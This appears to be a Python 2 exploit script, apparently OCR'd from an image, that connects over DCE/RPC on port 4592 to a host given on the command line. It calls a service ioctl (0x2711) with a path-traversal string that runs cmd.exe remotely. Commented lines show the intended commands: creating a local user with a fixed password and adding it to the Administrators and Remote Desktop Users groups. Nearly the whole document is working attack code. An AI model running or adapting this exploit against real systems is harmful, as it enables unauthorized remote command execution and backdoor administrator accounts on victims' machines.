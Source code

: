 ```py
if len(sys.argv) != 2:
  print "Provide only host arg"
  sys.exit(1)

port = 4592
interface = "5d2b62aa-ee0a-4a95-91ae-b064fdb471fc"
version = "1.0"

host = sys.argv[1]

string_binding = "ncacn_ip_tcp:%s" % host
trans = transport.DCERPCTransportFactory(string_binding)
trans.set_dport(port)

dce = trans.get_dce_rpc()
dce.connect()

print "Binding..."
iid = uuid.uuidtup_to_bin((interface, version))
dce.bind(iid)

print "...1"
stubdata = struct.pack("<III", 0x00, 0xc351, 0x04)
call(dce, 2, stubdata)

print "...2"
stubdata = struct.pack("<I", 0x02)
res = call(dce, 4, stubdata)
if res == -1:
  print "Something went wrong"
  sys.exit(1)
res = struct.unpack("III", res)

if (len(res) < 3):
  print "Received unexpected length value"
  sys.exit(1)

print "...3"
# ioctl 0x2711
stubdata = struct.pack("<IIII", res[2], 0x2711, 0x204, 0x204)
command = "..\\..\\windows\\system32\\cmd.exe /c 命令"
#net user a Abcd1234 /add
#net localgroup administrators a /add
#net localgroup "Remote Desktop Users" a /add

fmt = "<" + str(0x204) + "s"
stubdata += struct.pack(fmt, command)
call(dce, 1, stubdata)

print "\nDid it work?"

dce.disconnect()
```
